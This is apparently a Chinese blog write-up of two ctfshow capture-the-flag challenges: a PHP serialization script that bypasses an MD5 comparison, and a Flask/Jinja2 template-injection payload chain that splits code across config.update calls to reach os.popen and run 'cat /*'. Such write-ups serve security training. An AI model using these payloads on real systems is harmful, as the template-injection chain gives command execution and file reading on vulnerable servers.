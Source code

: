 ```yaml
---
title: ctfshow单身杯
date: 2024-11-11 12:30:52
permalink: /pages/e5ee7e/
author: 
  name: the0n3
  link: https://the0n3.top
---
```


学习新姿势，争做新青年！



## 签到·好玩的PHP

学到了新的md5绕过姿势，字符串和数字的MD5值是相等的

参考文章：[PHP md5()函数详解，PHP计算MD5，md5()绕过，md5()漏洞原理剖析](https://blog.csdn.net/wangyuxiang946/article/details/131754105)

exp

```php
<?php
class ctfshow {
    private $d;
    private $s;
    private $b;
    public $ctf=1.2;
    public function __construct() {
        $this->d = '1';
        $this->s = '.';
        $this->b = '2';
        }
}

$a = new ctfshow();
echo urlencode(serialize($a))."\n";
var_dump($a);
```

## ezzz_ssti

把payload分片写到config变量里

参考文章：[Python Flask SSTI 之 长度限制绕过](https://blog.csdn.net/weixin_43995419/article/details/126811287)

exp 

::: v-pre
```python
{{config.update(l=lipsum)}}
{{config.update(g=request.args.a)}}&a=__globals__
{{config.update(f=config.l)}}
{{config.update(f=f|attr(config.g))}}
{{config.update(f=config.l[config.g])}}
{{config.update(o=config.f.os)}}
{{config.update(p=config.o.popen)}}
{{config.p(request.args.c).read()}}&c=cat /*
```
:::
